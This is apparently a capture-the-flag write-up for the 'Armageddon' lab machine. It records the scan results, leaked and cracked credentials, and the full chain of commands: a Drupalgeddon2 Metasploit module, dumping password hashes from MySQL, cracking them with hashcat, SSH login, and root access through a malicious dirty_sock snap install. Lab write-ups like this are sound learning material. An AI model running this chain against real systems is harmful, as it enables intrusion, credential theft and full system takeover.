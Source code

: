 # Armageddon

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.10.233 -v`

### Open ports

```
22
80
```

## Users

```
brucetherealadmin:$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
brucetherealadmin:booboo
drupaluser:CQHEy@9M*m23gBVj
```

## Endpoints

```
/misc                 (Status: 301) [Size: 233] [--> http://10.10.10.233/misc/]
/themes               (Status: 301) [Size: 235] [--> http://10.10.10.233/themes/]
/modules              (Status: 301) [Size: 236] [--> http://10.10.10.233/modules/]
/scripts              (Status: 301) [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                (Status: 301) [Size: 234] [--> http://10.10.10.233/sites/]  
/includes             (Status: 301) [Size: 237] [--> http://10.10.10.233/includes/]
/profiles
```


## Vuln

* Vuln to Drupalgeddon 2 
* Used `unix/webapp/drupal_drupalgeddon2` module from metasploit setting `RHOST` to the target host and `LHOST` my machine
* Found drupal creds in `sites/default/settings.php`

```php
databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```
* got into db and checked users creds using `mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users';`
* got hash , since we are using drupal i tried hashcat with 7900 saying is a drupal hash `hashcat -m 7900 hash.txt /usr/share/wordlists/rockyou.txt` and got `booboo`
* ssh with `brucetherealadmin@10.10.10.233` using password `booboo` got user flag
* doing `sudo -l` we can execute snap has sudo
* so we can priv esc (`see references`)
* using `exploit` and then doing `sudo snap install something.snap --dangerous --devmode` creates the dirty_sock user with sudo privileges
* logging to `dirty_sock` user and doing `sudo su` we are able to priv esc to `root` and get the root flag

# References

* https://www.google.com/search?client=firefox-b-d&q=rapid7+drupalgeddorn
* http://www.hackersnotes.com/blog/pentest/linux-privilege-escalation-via-snapd-using-dirty_sock-exploit-and-demonstration-of-cve-2019-7304/
* https://gtfobins.github.io/gtfobins/snap/